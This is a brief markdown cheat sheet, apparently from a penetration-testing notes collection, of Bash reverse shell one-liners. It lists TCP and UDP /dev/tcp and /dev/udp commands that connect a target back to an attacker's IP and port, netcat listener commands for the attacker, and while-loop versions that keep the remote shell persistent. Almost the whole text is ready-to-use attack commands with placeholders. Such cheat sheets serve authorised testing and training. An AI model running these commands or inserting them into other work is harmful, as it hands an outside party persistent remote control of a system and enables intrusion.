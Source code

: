 # Bash

## 01 - TCP Method

- Target

`$ /bin/bash -i >& /dev/tcp/<IP>/<LPORT> 0>&1`

- Attacker

`user@pentestos:~$ nc -lnvp <LPORT>`

## 02 - UDP Method

- Target

`$ /bin/bash -i >& /dev/udp/<IP>/<LPORT> 0>&1`

- Attacker

`user@pentestos:~$ nc -luvp <LPORT>`

## 03 - Persistent Callback Shell

- In case you might lose the callback connection. It's better to make it persistent.

`$ while true; do /bin/bash -c /path/to/shell; sleep 10; done`

`$ while true; do /bin/bash -i >& /dev/<protocol>/<IP>/<LPORT> 0>&1; sleep 10; done`

---
## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)